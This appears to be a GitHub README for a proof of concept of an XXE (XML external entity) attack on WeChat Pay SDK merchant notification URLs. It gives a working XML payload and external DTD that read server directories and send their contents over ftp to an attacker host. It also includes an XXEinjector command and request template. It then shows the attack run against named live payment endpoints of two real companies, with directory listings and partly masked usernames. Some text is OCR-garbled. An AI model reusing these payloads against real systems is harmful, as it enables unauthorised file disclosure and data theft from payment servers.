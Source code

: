 # WeChatPaySDK-Demo
Post merchant notification url with  payload:


<?xml version="1.0" encoding="utf-8"?>

<!DOCTYPE root [

  <!ENTITY % attack SYSTEM "file:///etc/">

  <!ENTITY % xxe SYSTEM "http://attacker:8080/shell/data.dtd">

  %xxe;

]>


data.dtd:


<!ENTITY % shell "<!ENTITY &#x25; upload SYSTEM 'ftp://attack:33/%attack;
'>">

%shell;

%upload;



or use  XXEinjector tool  ahttps://github.com/enjoiz/XXEinjectora


ruby XXEinjector.rb --host=attacker --path=/etc   --file=req.txt --ssl


req.txt :

POST merchant_notification_url HTTP/1.1

Host:  merchant_notification_url_host

User-Agent: curl/7.43.0

Accept: */*

Content-Length: 57

Content-Type: application/x-www-form-urlencoded


XXEINJECT





In order to prove this, I got 2 chinese famous company:

   aamomo: Well-known chat tools like WeChat

   bavivo i1/4China's famous mobile phone,that also famous in my country



Example  momo :

  attack:

     notify url:    https://pay.immomo.com/weixin/notify

              cmd:  /home/



      result:



      ***

      logs

      zhang.jiax**

      zhang.shaol**

      zhang.xia**

      ****


    attack:

     notify url:    https://pay.immomo.com/weixin/notify

              cmd:  /home/logs



      result:

      ***

       moa-service

       momotrace

      ****


Example  vivo :

  attack:

     notify url:   https://pay.vivo.com.cn/webpay/wechat/callback.oo

              cmd: /home/



      result:

         tomcat


  attack:

     notify url:   https://pay.vivo.com.cn/webpay/wechat/callback.oo

              cmd: /home/tomcat

     result:

        .bash_logout

.bash_profile

.bashrc

logs


 attack:

     notify url:   https://pay.vivo.com.cn/webpay/wechat/callback.oo

              cmd: /home/tomcat/logs

     result:

           ****

           tomcat-2018-06-28.log

  tomcat-2018-06-29.log

  tomcat-2018-06-30.log
